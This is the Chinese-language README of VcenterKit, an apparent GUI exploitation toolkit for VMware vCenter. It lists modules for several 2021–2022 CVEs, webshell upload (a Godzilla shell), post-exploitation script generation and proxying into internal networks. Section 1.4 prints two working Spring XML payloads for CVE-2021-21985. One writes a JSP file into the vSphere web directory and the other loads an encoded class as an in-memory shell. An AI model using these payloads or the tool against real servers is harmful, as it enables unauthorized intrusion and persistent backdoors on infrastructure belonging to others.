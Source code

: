 ![VcenterKit](https://socialify.git.ci/W01fh4cker/VcenterKit/image?description=1&descriptionEditable=Vcenter%E7%BB%BC%E5%90%88%E6%B8%97%E9%80%8F%E5%88%A9%E7%94%A8%E5%B7%A5%E5%85%B7%E5%8C%85%20%7C%20Vcenter%20Comprehensive%20Penetration%20and%20Exploitation%20Toolkit&font=Rokkitt&forks=1&issues=1&language=1&logo=https%3A%2F%2Fs2.loli.net%2F2022%2F06%2F25%2FgUAh2V5CiD96y8G.jpg&owner=1&pattern=Circuit%20Board&pulls=1&stargazers=1)

# 1. 使用说明(V 0.0.2)

## 1.1 安装与启动

推荐使用`Python3.9`，其余版本未测试，`Linux`和`mac`未测试。

```shell
pip install -r requirements.txt
python VcenterKit.py
```

## 1.2 信息收集模块

直接输入`url`即可进行信息搜集，如果存在本地文件读取的话，程序会自动读取数据库文件；有些网站是没有`sdk`接口的，也就无法通过这种方式来查询信息，后续会研究其他的方法：

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/20230824001431.png)

## 1.3 CVE-2021-21972模块

主要利用思维导图如下：

可以看到，并非所有情况下都能`100%`成功上传文件的，因此这里我把这些利用链（除了写`authorized_keys`）全部写在代码里面了，依次尝试。

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/9f185d40dfc9057818ed93226aeb279.png)

这里放上之前测试利用搭建的环境的截图：

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/8bd245ffada0baa39a3059c73764bed.jpg)

上传哥斯拉马：

![11edd12a79387cb0d58d2a24b86ca10](https://github.com/W01fh4cker/VcenterKit/assets/101872898/3aac0b58-d2b7-49bd-a51e-5dc87e4f8845)


## 1.4 CVE-2021-21985模块

![image](https://github.com/W01fh4cker/VcenterKit/assets/101872898/e49cb0bb-0bbf-457b-b789-09ce3948a220)


需要注意的是，这里的`RMI`和`Command`只能二选一填写，目前`rmi`由于测试环境的问题，还没有进行测试，可能会有问题，但是`command`目前测试下来没什么问题，这里放上一张之前写的时候测试的截图：

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/e39abf9b303b95372fa666e919cf705.png)

需要注意的是，当前版本（`v0.0.2`）的`shell`上传和内存马打入模块还没实现。但是核心思想就是替换`xml`：

>  以下参考：https://daidaitiehanhan.github.io/2022/04/18/vCenter2021几个漏洞及后渗透/#不出网利用

上传`shell`的`xml`：

```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.io.PrintWriter">
        <constructor-arg>
            <value>/usr/lib/vmware-vsphere-ui/server/work/deployer/s/global/41/0/h5ngc.war/resources/log2.jsp</value>
        </constructor-arg>
    </bean>
    <bean id="is" class="java.lang.String">
        <constructor-arg>
            <value><![CDATA[<% out.println("ok"); %> ]]></value>
        </constructor-arg>
        <property name="whatever" value="#{ pb.println(is).close()}"/>
    </bean>
</beans>
```

打内存马要用到的`xml`：

```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="com.sun.org.apache.bcel.internal.util.ClassLoader">
    </bean>
        <bean id="is" class="java.lang.String">
        <constructor-arg>
            <value><![CDATA[$$BCEL$$...]]></value>
        </constructor-arg>
        <property name="whatever" value="#{ pb.loadClass(is).newInstance()}"/>
    </bean>
</beans>
```

等后面有时间了写上，当然，你可以来写，然后提`pr`，我看到会第一时间回复。

## 1.5 CVE-2021-22005模块

这里的`shell name`可写可不写，不写的话就是自动生成`6`位的名字。

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/20230824003746.png)

测试截图：
![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/20230824003704.png)

## 1.6 CVE-2022-22954

测试截图如下：

![](https://raw.githubusercontent.com/W01fh4cker/blog_image/main/6ef6d341978aaaa6f36bb894594ac47.png)

## 1.7 CVE-2022-22972

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/20230824004009.png)

## 1.8 后渗透利用模块

本来是想把这些脚本集成到工具里面的，但是转念一想，没必要，直接弄成点按钮生成脚本到本地这种形式就可以了，这样直接一个工具走天下。

![](https://raw.githubusercontent.com/W01fh4cker/blog_image/main/20230827015200.png)

## 1.9 渗透测试记事本

后面会放一些打vcenter的时候常用的命令、常看的文章上去

![](https://raw.githubusercontent.com/W01fh4cker/blog_image/main/e2ecc850aeca29a024a85fd08618e87.png)

# 2. Q&A

## 2.1 代理问题？

因为`vcenter`大多数位于内网，因此都是`proxifer`挂代理打，也就不怎么需要程序本身加个代理功能，我也懒得写了。

## 2.2 长期维护吗？

长期维护！本工具会和未来出的一系列工具，例如后面会开始写的`ExchangeKit`一样，都是我长期维护的项目，和之前的`Serein`( https://github.com/W01fh4cker/Serein )不一样（那个时候代码水平不行，加上`tkinter`做图形化太难受了，就不想维护了）。

## 2.3 代码写的有逻辑问题/有bug/有新利用方式，如何沟通？

类似的问题，直接提交`issues`( https://github.com/W01fh4cker/VcenterKit/issues )，描述清楚相关环境，和具体细节，我看到之后会在当天内回复，一般20分钟内就会回复（因为我的电子邮件可以实时收到消息）。

如果有代码能力的话，欢迎提交`pull request`。

## 2.4 想参与进来，共同维护？

没问题，提交`pull request`，贡献代码。

## 2.5 和其他工具相比的优缺点？

`Akatsuki`师傅（ https://github.com/Schira4396 ）写的`VcenterKiller`是我非常喜欢的一个利用工具，我的`VcenterKit`与其定位并不相同，我这个是用于本地挂代理测试内网或者外网的`vcenter`漏洞，并且由于方便而弄了个`pyqt5`做图形化，这直接导致打包后的`exe`体积非常非常大；而`VcenterKiller`则是用`go`语言写的一款小巧的利用工具，可以直接传至对方服务器运行，也可以本地运行，可以跨平台，非常的方便。

对于`CVE-2021-21972`这个漏洞而言，本工具可以自定义`shell`的名字，并且自动尝试数种利用链，用起来还是很舒服的，哈哈。

工具只是辅助，写工具的过程是了解漏洞的很好的方式，从中获得经验，足矣。

# 3. TODO

* [ ] 研究`CVE-2021-21985`的上传`shell`和打内存马的方式
* [ ] 你们提建议

# 4. 微信公众号：追梦信安

![](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/20230824010900.png)
